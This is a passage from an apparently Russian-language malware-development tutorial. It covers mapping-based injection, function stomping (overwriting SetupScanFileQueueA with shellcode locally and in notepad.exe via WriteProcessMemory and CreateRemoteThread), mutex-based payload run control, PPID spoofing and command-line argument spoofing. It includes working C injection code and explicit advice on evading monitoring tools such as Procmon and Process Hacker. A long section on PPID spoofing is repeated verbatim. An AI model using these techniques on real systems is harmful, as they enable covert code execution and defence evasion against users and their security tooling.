}
printf("\t[+] Remote Mapping Address : 0x%p \n", pMapRemoteAddress);
_EndOfFunction:
*ppAddress = pMapRemoteAddress;
if (hFile)
CloseHandle(hFile);
return bSTATE;
}UnmapViewOfFile
Напомним, что UnmapViewOfFile требует только базовый адрес отображаемого представления файла, который должен быть деактивирован.
Вызов WinAPI UnmapViewOfFile для отображения локально отображаемой полезной нагрузки запрещен, когда полезная нагрузка все еще выполняется, потому что удалённое представление файла является отражением локального.
Таким образом, деактивация локального представления файла вызовет сбой удалённого процесса, так как полезная нагрузка все еще активна.
Демо
Целевой процесс для этой демонстрации — Notepad.exe.
Ниже представлено изображение, на котором показана локально отображенная память, содержащая полезную нагрузку. Обратите внимание, что разрешения на память установлены как RW (чтение и запись).
MapViewOfFile2 отображает те же байты в адресное пространство целевого процесса, notepad.exe. Удаленно отображенная память теперь содержит полезную нагрузку с разрешениями RWX (чтение, запись и выполнение).
Выполнение полезной нагрузки (используя CreateRemoteThread для простоты)
Изучаем технику Stomping Injection
Предыдущая статья показывала как запустить peyload и при этом избежать использования вызовов WinAPI VirtualAlloc/Ex.
Этот-же урок демонстрирует другой метод, который избегает использования этих WinAPI.
Термин "stomping" относится к действию перезаписи или замены памяти функции или другой структуры данных в программе другими данными.
"Function stomping" - это техника, при которой байты исходной функции заменяются новым кодом, в результате чего функция заменяется или больше не работает так, как предполагалось. Вместо этого функция будет выполнять другую логику. Для реализации этого требуется адрес жертвенной функции для "stomping".
Выбор целевой функции
Получение адреса функции, если она локальная, то это не сложно, но основной вопрос при этой технике - какая функция получается.
Перезапись часто используемой функции может привести к неконтролируемому выполнению полезной нагрузки или процесс может завершиться аварийно. Поэтому следует понимать, что нацеливание на функции, экспортируемые из ntdll.dll, kernel32.dll и kernelbase.dll, рискованно.
Вместо этого следует нацеливаться на менее часто используемые функции, такие как MessageBox, так как она редко используется операционной системой или другими приложениями.
Использование перезаписанной функции
Когда байты целевой функции заменяются на байты полезной нагрузки, функция больше не может быть использована, если это не предназначено специально для выполнения полезной нагрузки.
Например, если целевой функцией является MessageBoxA, то двоичный файл должен вызывать MessageBoxA только один раз, когда будет выполнена полезная нагрузка.
Локальный код функции Stomping
В демонстрации кода ниже, целевой функцией является SetupScanFileQueueA. Это совершенно случайная функция, но вряд ли она вызовет проблемы, если ее перезаписать.
Согласно документации Microsoft, функция экспортируется из Setupapi.dll. Поэтому первым шагом будет загрузка Setupapi.dll в локальную память процесса с использованием LoadLibraryA, а затем получение адреса функции с помощью GetProcAddress.
Следующим шагом будет "stomping" функции и замена её полезной нагрузкой. Убедитесь, что функция может быть перезаписана, пометив её область памяти как доступную для чтения и записи с использованием VirtualProtect.
Затем полезная нагрузка записывается по адресу функции, и, наконец, снова используется VirtualProtect, чтобы пометить область как исполняемую (RX или RWX).
C:
#define SACRIFICIAL_DLL "setupapi.dll"
#define SACRIFICIAL_FUNC "SetupScanFileQueueA"
// ...
BOOL WritePayload(IN PVOID pAddress, IN PBYTE pPayload, IN SIZE_T sPayloadSize) {
DWORD dwOldProtection = NULL;
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)){
printf("[!] VirtualProtect [RW] Не удалось из-за ошибки: %d \n", GetLastError());
return FALSE;
}
memcpy(pAddress, pPayload, sPayloadSize);
if (!VirtualProtect(pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtect [RWX] Не удалось из-за ошибки: %d \n", GetLastError());
return FALSE;
}
return TRUE;
}
int main() {
PVOID pAddress = NULL;
HMODULE hModule = NULL;
HANDLE hThread = NULL;
printf("[#] Нажмите <Enter>, чтобы загрузить \"%s\" ... ", SACRIFICIAL_DLL);
getchar();
printf("[i] Загрузка ... ");
hModule = LoadLibraryA(SACRIFICIAL_DLL);
if (hModule == NULL){
printf("[!] LoadLibraryA Не удалось из-за ошибки: %d \n", GetLastError());
return -1;
}
printf("[+] ГОТОВО \n");
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
if (pAddress == NULL){
printf("[!] GetProcAddress Не удалось из-за ошибки: %d \n", GetLastError());
return -1;
}
printf("[+] Адрес \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);
printf("[#] Нажмите <Enter>, чтобы записать полезную нагрузку ... ");
getchar();
printf("[i] Запись ... ");
if (!WritePayload(pAddress, Payload, sizeof(Payload))) {
return -1;
}
printf("[+] ГОТОВО \n");
printf("[#] Нажмите <Enter>, чтобы выполнить полезную нагрузку ... ");
getchar();
hThread = CreateThread(NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}Вставка DLL в двоичный файл
Вместо загрузки DLL с использованием LoadLibrary и затем получения адреса целевой функции с помощью GetProcAddress, можно статически связать DLL с двоичным файлом. Для этого можно использовать директиву компилятора pragma comment, как показано ниже.
C:
#pragma comment (lib, "Setupapi.lib") // Добавление "setupapi.dll" в таблицу импорта адресовЗатем целевую функцию можно просто получить с использованием оператора адреса (например, &SetupScanFileQueueA). Ниже приведен фрагмент кода, который обновляет предыдущий фрагмент кода с использованием директивы pragma comment.
C:
#pragma comment (lib, "Setupapi.lib") // Добавление "setupapi.dll" в таблицу импорта адресов
// ...
int main() {
HANDLE hThread = NULL;
printf("[+] Адрес \"SetupScanFileQueueA\" : 0x%p \n", &SetupScanFileQueueA);
printf("[#] Нажмите <Enter>, чтобы записать полезную нагрузку ... ");
getchar();
printf("[i] Запись ... ");
if (!WritePayload(&SetupScanFileQueueA, Payload, sizeof(Payload))) { // Использование оператора адреса
return -1;
}
printf("[+] ГОТОВО \n");
printf("[#] Нажмите <Enter>, чтобы выполнить полезную нагрузку ... ");
getchar();
hThread = CreateThread(NULL, NULL, SetupScanFileQueueA, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Нажмите <Enter>, чтобы выйти ... ");
getchar();
return 0;
}Демонстрация
Получение адреса SetupScanFileQueueA.
Оригинальные байты функции SetupScanFileQueueA.
Замена байтов функции на полезную нагрузку Msfvenom calc.
Запуск нагрузки
Stomping Injection в удаленный процесс
Давайте теперь попробуем перезаписать функцию в стороннем процессе.)
DLL-файлы, реализующие функции Windows API, используются всеми процессами, которые их используют, поэтому функции внутри DLL имеют одинаковые адреса в каждом процессе. Однако адрес самой DLL будет отличаться между процессами из-за различного виртуального адресного пространства. Это означает, что, хотя адрес целевой функции остается постоянным в разных процессах, DLL, который экспортирует эти функции, может не быть одинаковым.
Например, два процесса, A и B, будут использовать Kernel32.dll, но адрес DLL может отличаться в каждом процессе из-за рандомизации макета адресного пространства (Address Space Layout Randomization). Однако VirtualAlloc, который экспортируется из Kernel32.dll, будет иметь одинаковый адрес в обоих процессах.
Важно отметить, что для того чтобы перезаписать функцию удаленно, DLL, экспортирующая целевую функцию, должна быть уже загружена в целевой процесс.
Например, чтобы нацелиться на функцию SetupScanFileQueueA, которая экспортируется из Setupapi.dll, этот DLL должен быть уже загружен в целевой процесс.
Если удаленный процесс не загрузил Setupapi.dll, функция SetupScanFileQueueA не будет присутствовать в целевом процессе, что приведет к попытке записи по адресу, который не существует.
Код перезаписи функции в удаленном процессе
Следующий код похож на код локальной перезаписи функции, однако он использует разные функции WinAPI для инъекции кода.
C:
#define SACRIFICIAL_DLL "setupapi.dll"
#define SACRIFICIAL_FUNC "SetupScanFileQueueA"
// ...
BOOL WritePayload(HANDLE hProcess, PVOID pAddress, PBYTE pPayload, SIZE_T sPayloadSize) {
DWORD dwOldProtection = NULL;
SIZE_T sNumberOfBytesWritten = NULL;
if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtectEx [RW] Ошибка выполнения: %d \n", GetLastError());
return FALSE;
}
if (!WriteProcessMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten) || sPayloadSize != sNumberOfBytesWritten){
printf("[!] WriteProcessMemory Ошибка выполнения: %d \n", GetLastError());
printf("[!] Байты записаны: %d из %d \n", sNumberOfBytesWritten, sPayloadSize);
return FALSE;
}
if (!VirtualProtectEx(hProcess, pAddress, sPayloadSize, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtectEx [RWX] Ошибка выполнения: %d \n", GetLastError());
return FALSE;
}
return TRUE;
}
int wmain(int argc, wchar_t* argv[]) {
HANDLE hProcess = NULL,
hThread = NULL;
PVOID pAddress = NULL;
DWORD dwProcessId = NULL;
HMODULE hModule = NULL;
if (argc < 2) {
wprintf(L"[!] Использование : \"%s\" <Имя процесса> \n", argv[0]);
return -1;
}
wprintf(L"[i] Поиск ID процесса \"%s\" ... ", argv[1]);
if (!GetRemoteProcessHandle(argv[1], &dwProcessId, &hProcess)) {
printf("[!] Процесс не найден \n");
return -1;
}
printf("[+] ГОТОВО \n");
printf("[i] Найденный PID целевого процесса: %d \n", dwProcessId);
printf("[i] Загрузка \"%s\"... ", SACRIFICIAL_DLL);
hModule = LoadLibraryA(SACRIFICIAL_DLL);
if (hModule == NULL) {
printf("[!] LoadLibraryA Ошибка выполнения: %d \n", GetLastError());
return -1;
}
printf("[+] ГОТОВО \n");
pAddress = GetProcAddress(hModule, SACRIFICIAL_FUNC);
if (pAddress == NULL) {
printf("[!] GetProcAddress Ошибка выполнения: %d \n", GetLastError());
return -1;
}
printf("[+] Адрес \"%s\" : 0x%p \n", SACRIFICIAL_FUNC, pAddress);
printf("[#] Нажмите <Enter> для записи полезной нагрузки ... ");
getchar();
printf("[i] Запись ... ");
if (!WritePayload(hProcess, pAddress, Payload, sizeof(Payload))) {
return -1;
}
printf("[+] ГОТОВО \n");
printf("[#] Нажмите <Enter> для выполнения полезной нагрузки ... ");
getchar();
hThread = CreateRemoteThread(hProcess, NULL, NULL, pAddress, NULL, NULL, NULL);
if (hThread != NULL)
WaitForSingleObject(hThread, INFINITE);
printf("[#] Нажмите <Enter> чтобы выйти ... ");
getchar();
return 0;
}Демонстрация
Нацеливаемся на процесс Notepad.exe.
Получение адреса SetupScanFileQueueA.
Оригинальные байты функции SetupScanFileQueueA.
Замена байтов функции на полезную нагрузку Msfvenom calc.
Запуск нагрузки
Контроль выполнения полезной нагрузки
В реальных сценариях важно ограничивать действия, выполняемые вредоносным ПО, и концентрироваться на основных задачах.
Чем больше действий выполняет вредоносное ПО, тем вероятнее, что его обнаружат системы мониторинга.
Вот например такая ситуация, как в этом уроке, правилом хорошего тона перед перезаписью атакуемой функции, необходимо сохранить оригинал, а потом после выполнения полезной нагрузки восстановить функцию.
Но для этого нужно знать, что полезная нагрузка выполнилась.)
Объекты синхронизации Windows могут быть использованы для управления выполнением полезной нагрузки. Эти объекты координируют доступ к общим ресурсам для нескольких потоков или процессов, обеспечивая контролируемый доступ к общим ресурсам и предотвращая конфликты или состояния гонки, когда несколько потоков или процессов пытаются одновременно получить доступ к одному и тому же ресурсу. Используя объекты синхронизации, можно контролировать, сколько раз полезная нагрузка будет выполнена на системе.
Существует несколько типов объектов синхронизации, включая семафоры, мьютексы и события. Каждый тип объекта синхронизации работает несколько иначе, но в конечном итоге все они служат одной цели - координировать доступ к общим ресурсам.
Семафоры
Семафоры - это инструменты синхронизации, которые используют значение, хранящееся в памяти, для контроля доступа к общему ресурсу. Существует два типа семафоров: бинарные и счетные.
Бинарный семафор имеет значение 1 или 0, указывая, доступен ли ресурс или недоступен соответственно. Счетный семафор, с другой стороны, имеет значение больше 1, представляя количество доступных ресурсов или количество процессов, которые могут одновременно получать доступ к ресурсу.
Для управления выполнением полезной нагрузки при каждом выполнении полезной нагрузки будет создаваться именованный объект семафора. Если двоичный файл выполняется несколько раз, первое выполнение создаст именованный семафор, и полезная нагрузка будет выполнена, как предполагалось. При последующих запусках создание семафора не удастся, так как семафор с таким же именем уже работает. Это указывает на то, что полезная нагрузка в настоящее время выполняется из предыдущего запуска и поэтому не должна выполняться снова, чтобы избежать дублирования.
CreateSemaphoreA будет использоваться для создания объекта семафора. Важно создать его как именованный семафор, чтобы предотвратить выполнение после первоначального запуска двоичного файла. Если именованный семафор уже работает, CreateSemaphoreA вернет дескриптор существующего объекта, и GetLastError вернет ERROR_ALREADY_EXISTS.
В приведенном ниже коде, если семафор "ControlString" уже работает, GetLastError вернет ERROR_ALREADY_EXISTS.
C:
HANDLE hSemaphore = CreateSemaphoreA(NULL, 10, 10, "ControlString");
if (hSemaphore != NULL && GetLastError() == ERROR_ALREADY_EXISTS)
// Полезная нагрузка уже выполняется
else
// Полезная нагрузка не выполняетсяМьютексы
Мьютекс, сокращенно от "взаимного исключения", - это инструмент синхронизации, используемый для управления доступом к общим ресурсам среди процессов и потоков. На практике поток, пытающийся получить доступ к общему ресурсу, проверяет статус мьютекса. Если он заблокирован, поток ждет, пока мьютекс не будет разблокирован. Если мьютекс не заблокирован, поток блокирует его, выполняет необходимые операции с общим ресурсом и затем разблокирует мьютекс по завершении. Это обеспечивает доступ к общему ресурсу только одного потока за раз, предотвращая конфликты и порчу данных.
CreateMutexA используется для создания именованного мьютекса следующим образом:
C:
HANDLE hMutex = CreateMutexA(NULL, FALSE, "ControlString");
if (hMutex != NULL && GetLastError() == ERROR_ALREADY_EXISTS)
// Полезная нагрузка уже выполняется
else
// Полезная нагрузка не выполняетсяСобытия
События - это еще один инструмент синхронизации, который может быть использован для координации выполнения потоков или процессов. Они могут быть ручными или автоматическими, причем ручные события требуют явных действий по установке или сбросу, а автоматические события активируются внешними условиями, такими как истечение времени таймера или завершение задачи.
Для использования событий в программе может быть использована функция WinAPI CreateEventA. Использование функции демонстрируется ниже:
C:
HANDLE hEvent = CreateEventA(NULL, FALSE, FALSE, "ControlString");
if (hEvent != NULL && GetLastError() == ERROR_ALREADY_EXISTS)
// Полезная нагрузка уже выполняется
else
// Полезная нагрузка не выполняетсяХочется отметить что выше код использует не совсем правильно объекты синхронизации, а призван лишь для демонстрации, для большего понимания как с ними работать, рекомендуется обратится либо к документации Microsoft, либо поискать статьи по объектам синхронизации.
Вот например семафоры, нужно использовать с событиями:WaitForSingleObject (Потоки ожидают доступа к разделяемому ресурсу).
А для работы мьютексами например обычно используют функции захвата и освобождения мьютекса.
Изучить эти темы предлагаю самостоятельно, т.к. материала очень много по этой части.)
Изучаем технику Spoofing
Spoofing - В переводе подмена.)
Рассмотрим несколько вариантов техники:
Подмена номера родительского процесса (PPID)
Это техника, используемая для изменения PPID процесса, что позволяет эффективно маскировать связь между дочерним процессом и его истинным родительским процессом. Это можно сделать, изменив PPID дочернего процесса на другое значение, заставив его выглядеть так, как будто процесс был запущен другим законным процессом Windows, а не истинным родительским процессом.
Решения безопасности и защитники часто ищут необычные отношения между родителем и ребенком. Например, если Microsoft Word запускает cmd.exe, это обычно указывает на выполнение злонамеренных макросов. Если cmd.exe запускается с другим PPID, он скроет истинный родительский процесс и будет выглядеть так, как будто он был запущен другим процессом.
Вот например в статье про APC, RuntimeBroker.exe был запущен родителем EarlyBird.exe, что может использоваться решениями безопасности для обнаружения злонамеренной активности.
Список атрибутов
Список атрибутов — это структура данных, которая хранит список атрибутов, связанных с процессом или потоком. К этим атрибутам могут относиться такие сведения, как приоритет, алгоритм планирования, состояние, привязка к ЦП, адресное пространство памяти процесса или потока и многое другое. Списки атрибутов могут использоваться для эффективного хранения и извлечения информации о процессах и потоках, а также для изменения атрибутов процесса или потока в реальном времени.
Для PPID Spoofing требуется использование и изменение списка атрибутов процесса для модификации его PPID. Использование и изменение списка атрибутов процесса будут показаны в следующих разделах.
Создание процесса
Процесс подмены PPID требует создания процесса с использованием CreateProcess с установленным флагом EXTENDED_STARTUPINFO_PRESENT, который используется для дополнительного контроля созданного процесса. Этот флаг позволяет изменять некоторую информацию о процессе, такую как информацию PPID.
Документация Microsoft по EXTENDED_STARTUPINFO_PRESENT гласит следующее:
Процесс создается с расширенной информацией о запуске; параметр lpStartupInfo определяет структуру STARTUPINFOEX.
Это означает, что также необходима структура данных STARTUPINFOEXA.
Структура STARTUPINFOEXA
Структура данных STARTUPINFOEXA представлена ниже:
StartupInfo — это та же структура, которая использовалась в предыдущих статьях для создания нового процесса. Обратитесь к статье про APC для повторения.
Единственный элемент, который нужно установить, это cb, равный sizeof(STARTUPINFOEX).
lpAttributeList создается с использованием WinAPI InitializeProcThreadAttributeList. Это структура данных списка атрибутов, которая обсуждается подробнее в следующем разделе.
Инициализация списка атрибутов
Функция InitializeProcThreadAttributeList представлена ниже.
Чтобы передать список атрибутов, который изменяет родительский процесс созданного дочернего процесса, сначала создайте список атрибутов с использованием WinAPI InitializeProcThreadAttributeList. Этот API инициализирует указанный список атрибутов для создания процесса и потока. Согласно документации Microsoft, InitializeProcThreadAttributeList должен вызываться дважды:
Обновление списка атрибутов
После успешной инициализации списка атрибутов используйте WinAPI UpdateProcThreadAttribute, чтобы добавить атрибуты в список. Функция представлена ниже.
Attribute - Этот флаг критически важен для PPID spoofing и указывает, что следует обновить в списке атрибутов. В этом случае он должен быть установлен на флаг PROC_THREAD_ATTRIBUTE_PARENT_PROCESS для обновления информации о родительском процессе.
Флаг PROC_THREAD_ATTRIBUTE_PARENT_PROCESS указывает родительский процесс потока. В общем случае родительский процесс потока — это процесс, который создал поток. Если поток создается с использованием функции CreateThread, родительский процесс — это тот, который вызвал функцию CreateThread. Если поток создается как часть нового процесса с использованием функции CreateProcess, родительский процесс — это новый процесс. Обновление родительского процесса потока также обновит родительский процесс связанного процесса.
lpValue - Дескриптор родительского процесса.
cbSize - Размер значения атрибута, указанного параметром lpValue. Это будет установлено в sizeof(HANDLE).
Логика реализации
Шаги ниже подводят итог необходимых действий для выполнения PPID spoofing.
Функция PPID Spoofing
CreatePPidSpoofedProcess — это функция, которая создаёт процесс с поддельным PPID.
Функция принимает 5 аргументов:
hParentProcess - дескриптор процесса, который станет родителем для только что созданного процесса.
lpProcessName - имя процесса, который необходимо создать.
dwProcessId - указатель на DWORD, который принимает PID новосозданного процесса.
hProcess - указатель на HANDLE, который принимает дескриптор только что созданного процесса.
hThread - указатель на HANDLE, который принимает дескриптор потока только что созданного процесса.
Демо
Создание дочернего процесса, RuntimeBroker.exe, с родителем svchost.exe, который имеет PID 21956. Обратите внимание, что этот процесс svchost.exe выполняется с обычными привилегиями.
PPID Spoofing успешно выполнен. Процесс RuntimeBroker.exe выглядит так, как будто он был запущен svchost.exe.
Демо 2 - Обновление текущего каталога
Заметьте, как в предыдущем демо значение "Current Directory" указывает на каталог исполняемого файла PPidSpoofing.exe.
Это может легко стать индикатором заражения, и решения безопасности или защитники могут быстро пометить эту аномалию. Чтобы исправить это, просто установите параметр lpCurrentDirectory в CreateProcess WinAPI на менее подозрительный каталог, например, "C:\Windows\System32".
Давайте теперь ещё рассмотрим одну интересную технику.)
Подмена аргумента процесса - это техника, используемая для скрытия командной строки нового процесса с целью выполнения команд без их раскрытия службам регистрации, таким как Procmon.
На изображении ниже показана команда powershell.exe -c calc.exe, которая регистрируется в Procmon. Цель этого раздела - выполнить команду powershell.exe -c calc.exe, чтобы она не была успешно зарегистрирована в Procmon.
Обзор PEB (Блок параметров выполнения процесса)
Первый шаг к выполнению обмана аргумента - понять, где хранятся аргументы внутри процесса. Напомним структуру PEB, которая была объяснена в начале курса, она содержит информацию о процессе. Более конкретно, структура RTL_USER_PROCESS_PARAMETERS внутри PEB содержит член CommandLine, который содержит аргументы командной строки. Структура RTL_USER_PROCESS_PARAMETERS показана ниже.
CommandLine определен как UNICODE_STRING.
Структура UNICODE_STRING
Структура UNICODE_STRING показана ниже.
Элемент Buffer будет содержать содержимое аргументов командной строки. Имея это в виду, можно получить доступ к аргументам командной строки, используя PEB->ProcessParameters.CommandLine.Buffer как строку широких символов.
Как выполнить подмену аргументов процесса
Для выполнения подмена аргументов командной строки сначала необходимо создать целевой процесс в приостановленном состоянии, передавая фиктивные аргументы, которые не считаются подозрительными. Прежде чем возобновить процесс, строку PEB->ProcessParameters.CommandLine.Buffer необходимо заменить на желаемую строку-полезную нагрузку, которая заставит службы регистрации регистрировать фиктивные аргументы, а не фактические аргументы командной строки, которые будут выполнены. Для выполнения этой процедуры необходимо выполнить следующие шаги:
Получение удаленного адреса PEB
Для получения адреса PEB удаленного процесса необходимо использовать NtQueryInformationProcess с флагом ProcessBasicInformation.
Как указано в документации, при использовании флага ProcessBasicInformation NtQueryInformationProcess вернет структуру PROCESS_BASIC_INFORMATION, которая выглядит следующим образом:
Обратите внимание, что поскольку NtQueryInformationProcess - это системный вызов, его нужно вызывать с использованием GetModuleHandle и GetProcAddress, как показано в предыдущих статьях.
Чтение удаленной структуры PEB
После получения адреса PEB для удаленного процесса можно прочитать структуру PEB с помощью функции WinAPI ReadProcessMemory, как показано ниже.
ReadProcessMemory используется для чтения данных из указанного адреса, указанного в параметре lpBaseAddress. Функцию нужно вызвать дважды:
При чтении структуры RTL_USER_PROCESS_PARAMETERS необходимо читать больше байт, чем sizeof(RTL_USER_PROCESS_PARAMETERS). Это связано с тем, что реальный размер этой структуры зависит от размера фиктивного аргумента. Для обеспечения чтения всей структуры дополнительные байты должны быть прочитаны. Это делается в образце кода, где читается дополнительных 225 байтов.
Патчинг CommandLine.Buffer
Получив структуру RTL_USER_PROCESS_PARAMETERS, можно получить доступ и патчить CommandLine.Buffer. Для этого будет использоваться функция WinAPI WriteProcessMemory, как показано ниже.
Код в этой статье использует две вспомогательные функции, которые читают и записывают данные из и в целевой процесс.
Функция ReadFromTargetProcess
Вспомогательная функция ReadFromTargetProcess вернет выделенную кучу, содержащую буфер, прочитанный из целевого процесса. Сначала она читает структуру PEB, а затем использует ее для получения структуры RTL_USER_PROCESS_PARAMETERS. Функция ReadFromTargetProcess показана ниже.
Функция WriteToTargetProcess
Вспомогательная функция WriteToTargetProcess передает соответствующие параметры функции WriteProcessMemory и проверяет вывод. Функция WriteToTargetProcess показана ниже.
Функция подмены аргумента процесса
CreateArgSpoofedProcess - это функция, выполняющая подмен аргумента командной строки во вновь созданном процессе.
Функция требует 5 аргументов:
szStartupArgs - Фиктивные аргументы. Они должны быть безвредными.
szRealArgs - Реальные аргументы для выполнения.
dwProcessId - Указатель на DWORD, который получает PID.
hProcess - Указатель на HANDLE, который получает дескриптор процесса.
hThread - Указатель на DWORD, который получает дескриптор потока процесса.
Демонстрация
powershell.exe Totally Legit Argument - это фиктивный аргумент, который будет зарегистрирован, в то время как powershell.exe -c calc.exe - это полезная нагрузка, которая будет выполнена.
Отлично Procmon был обманут, и он зарегистрировал фиктивные аргументы командной строки. Однако эта же техника не работает так хорошо с некоторыми инструментами, такими как Process Hacker. Ниже показан результат подмены аргумента в Process Hacker.
Легитимные аргументы отображаются Process Hacker, вместе с фрагментом фиктивного аргумента. В этом разделе мы проанализируем, почему это происходит, и предоставим решение.
Анализ проблемы
Для лучшего понимания того, почему отображаются легитимные аргументы, фиктивный аргумент будет установлен в powershell.exe AAAAAAA....
Проверка Process Hacker снова показывает, что регистрируются как легитимые, так и фиктивные аргументы.
Использование PEB->ProcessParameters.CommandLine.Buffer для перезаписи полезной нагрузки может быть обнаружено Process Hacker и другими инструментами, такими как Process Explorer, потому что эти инструменты используют NtQueryInformationProcess для чтения аргументов командной строки процесса во время выполнения. Поскольку это происходит во время выполнения, они могут видеть, что в данный момент находится в PEB->ProcessParameters.CommandLine.Buffer.
Решение
Эти инструменты считывают CommandLine.Buffer до длины, указанной в CommandLine.Length. Они не полагаются на то, что CommandLine.Buffer завершается нулевым символом, потому что Microsoft утверждает в своей документации, что UNICODE_STRING.Buffer может не быть завершен нулевым символом.
Короче говоря, эти инструменты ограничивают количество байт, считываемых из CommandLine.Buffer, равным CommandLine.Length, чтобы избежать чтения дополнительных ненужных байт в случае, если CommandLine.Buffer не завершен нулевым символом.
Возможно обмануть эти инструменты, установив CommandLine.Length меньше размера буфера. Это позволяет контролировать, сколько полезной нагрузки внутри CommandLine.Buffer будет отображено. Это можно сделать, переписав адрес CommandLine.Length в удаленном процессе, передав желаемый размер буфера для чтения внешними инструментами.
Патчинг CommandLine.Length
Следующий фрагмент кода патчит PEB->ProcessParameters.CommandLine.Length, чтобы ограничить то, что может читать Process Hacker только для powershell.exe. Сначала аргумент подмены устанавливается в "Totally Legit Argument", а затем длина патчится, чтобы быть размером sizeof(L"powershell.exe").
Демонстрация
Просмотр Process Hacker.
Procmon view.
Рассмотрим несколько вариантов техники:
Подмена номера родительского процесса (PPID)
Это техника, используемая для изменения PPID процесса, что позволяет эффективно маскировать связь между дочерним процессом и его истинным родительским процессом. Это можно сделать, изменив PPID дочернего процесса на другое значение, заставив его выглядеть так, как будто процесс был запущен другим законным процессом Windows, а не истинным родительским процессом.
Решения безопасности и защитники часто ищут необычные отношения между родителем и ребенком. Например, если Microsoft Word запускает cmd.exe, это обычно указывает на выполнение злонамеренных макросов. Если cmd.exe запускается с другим PPID, он скроет истинный родительский процесс и будет выглядеть так, как будто он был запущен другим процессом.
Вот например в статье про APC, RuntimeBroker.exe был запущен родителем EarlyBird.exe, что может использоваться решениями безопасности для обнаружения злонамеренной активности.
Список атрибутов
Список атрибутов — это структура данных, которая хранит список атрибутов, связанных с процессом или потоком. К этим атрибутам могут относиться такие сведения, как приоритет, алгоритм планирования, состояние, привязка к ЦП, адресное пространство памяти процесса или потока и многое другое. Списки атрибутов могут использоваться для эффективного хранения и извлечения информации о процессах и потоках, а также для изменения атрибутов процесса или потока в реальном времени.
Для PPID Spoofing требуется использование и изменение списка атрибутов процесса для модификации его PPID. Использование и изменение списка атрибутов процесса будут показаны в следующих разделах.
Создание процесса
Процесс подмены PPID требует создания процесса с использованием CreateProcess с установленным флагом EXTENDED_STARTUPINFO_PRESENT, который используется для дополнительного контроля созданного процесса. Этот флаг позволяет изменять некоторую информацию о процессе, такую как информацию PPID.
Документация Microsoft по EXTENDED_STARTUPINFO_PRESENT гласит следующее:
Процесс создается с расширенной информацией о запуске; параметр lpStartupInfo определяет структуру STARTUPINFOEX.
Это означает, что также необходима структура данных STARTUPINFOEXA.
Структура STARTUPINFOEXA
Структура данных STARTUPINFOEXA представлена ниже:
C:
typedef struct _STARTUPINFOEXA {
STARTUPINFOA StartupInfo;
LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList; // Список атрибутов
} STARTUPINFOEXA, *LPSTARTUPINFOEXA;StartupInfo — это та же структура, которая использовалась в предыдущих статьях для создания нового процесса. Обратитесь к статье про APC для повторения.
Единственный элемент, который нужно установить, это cb, равный sizeof(STARTUPINFOEX).
lpAttributeList создается с использованием WinAPI InitializeProcThreadAttributeList. Это структура данных списка атрибутов, которая обсуждается подробнее в следующем разделе.
Инициализация списка атрибутов
Функция InitializeProcThreadAttributeList представлена ниже.
C:
BOOL InitializeProcThreadAttributeList(
[out, optional] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList,
[in] DWORD dwAttributeCount,
DWORD dwFlags, // NULL (зарезервировано)
[in, out] PSIZE_T lpSize
);Чтобы передать список атрибутов, который изменяет родительский процесс созданного дочернего процесса, сначала создайте список атрибутов с использованием WinAPI InitializeProcThreadAttributeList. Этот API инициализирует указанный список атрибутов для создания процесса и потока. Согласно документации Microsoft, InitializeProcThreadAttributeList должен вызываться дважды:
- Первый вызов InitializeProcThreadAttributeList должен иметь значение NULL для параметра lpAttributeList. Этот вызов используется для определения размера списка атрибутов, который будет получен из параметра lpSize.
- Второй вызов InitializeProcThreadAttributeList должен указать действующий указатель для параметра lpAttributeList. Значение lpSize следует предоставить на этот раз в качестве ввода. Этот вызов инициализирует список атрибутов.
Обновление списка атрибутов
После успешной инициализации списка атрибутов используйте WinAPI UpdateProcThreadAttribute, чтобы добавить атрибуты в список. Функция представлена ниже.
C:
BOOL UpdateProcThreadAttribute(
[in, out] LPPROC_THREAD_ATTRIBUTE_LIST lpAttributeList, // возвращаемое значение от InitializeProcThreadAttributeList
[in] DWORD dwFlags, // NULL (зарезервировано)
[in] DWORD_PTR Attribute,
[in] PVOID lpValue, // указатель на значение атрибута
[in] SIZE_T cbSize, // sizeof(lpValue)
[out, optional] PVOID lpPreviousValue, // NULL (зарезервировано)
[in, optional] PSIZE_T lpReturnSize // NULL (зарезервировано)
);Attribute - Этот флаг критически важен для PPID spoofing и указывает, что следует обновить в списке атрибутов. В этом случае он должен быть установлен на флаг PROC_THREAD_ATTRIBUTE_PARENT_PROCESS для обновления информации о родительском процессе.
Флаг PROC_THREAD_ATTRIBUTE_PARENT_PROCESS указывает родительский процесс потока. В общем случае родительский процесс потока — это процесс, который создал поток. Если поток создается с использованием функции CreateThread, родительский процесс — это тот, который вызвал функцию CreateThread. Если поток создается как часть нового процесса с использованием функции CreateProcess, родительский процесс — это новый процесс. Обновление родительского процесса потока также обновит родительский процесс связанного процесса.
lpValue - Дескриптор родительского процесса.
cbSize - Размер значения атрибута, указанного параметром lpValue. Это будет установлено в sizeof(HANDLE).
Логика реализации
Шаги ниже подводят итог необходимых действий для выполнения PPID spoofing.
- Вызывается CreateProcessA с флагом EXTENDED_STARTUPINFO_PRESENT для обеспечения дополнительного контроля над созданным процессом.
- Создается структура STARTUPINFOEXA, которая содержит список атрибутов, LPPROC_THREAD_ATTRIBUTE_LIST.
- Вызывается InitializeProcThreadAttributeList для инициализации списка атрибутов. Функцию следует вызывать дважды, первый раз определяет размер списка атрибутов, а следующий вызов осуществляет инициализацию.
- UpdateProcThreadAttribute используется для обновления атрибутов, устанавливая флаг PROC_THREAD_ATTRIBUTE_PARENT_PROCESS, который позволяет пользователю указать родительский процесс потока.
Функция PPID Spoofing
CreatePPidSpoofedProcess — это функция, которая создаёт процесс с поддельным PPID.
Функция принимает 5 аргументов:
